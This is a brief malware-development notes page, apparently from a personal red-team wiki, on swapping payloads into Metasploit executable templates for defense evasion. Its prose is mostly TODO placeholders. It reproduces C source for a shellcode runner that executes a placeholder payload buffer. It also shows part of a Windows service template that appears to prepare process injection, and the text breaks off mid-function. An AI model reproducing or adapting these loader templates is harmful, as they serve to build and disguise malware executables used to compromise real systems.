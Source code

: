 # String Substitution

Search Tag(s): #helpers #malware-development #defense-evasion

TODO: Fill this info

There is a limitation with this method. It uses a few supported payload formats (refer to the [[Metasploit Payload Templates References|table reference]]).

TODO: Write steps to compile EXE and copy in the templates file destination

## 01 - EXE

C template source code

```c
#include <stdio.h>

#define SCSIZE 4096
char payload[SCSIZE] = "PAYLOAD:";

char comment[512] = "";

int main(int argc, char **argv) {
	(*(void (*)()) payload)();
	return(0);
}
```

## 02 - EXE-Service

```c
#define WIN32_LEAN_AND_MEAN
#include <windows.h>

#define PAYLOAD_SIZE	8192

char cServiceName[32] = "SERVICENAME";

char bPayload[PAYLOAD_SIZE] = "PAYLOAD:";

SERVICE_STATUS ss;

SERVICE_STATUS_HANDLE hStatus = NULL;

/*
 *
 */
BOOL ServiceHandler( DWORD dwControl ) {
	if( dwControl == SERVICE_CONTROL_STOP || dwControl == SERVICE_CONTROL_SHUTDOWN ) {
		ss.dwWin32ExitCode = 0;
		ss.dwCurrentState  = SERVICE_STOPPED;
	}
	return SetServiceStatus( hStatus, &ss );
}

/*
 *
 */
VOID ServiceMain( DWORD dwNumServicesArgs, LPSTR * lpServiceArgVectors ) {
	CONTEXT Context;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	LPVOID lpPayload = NULL;
```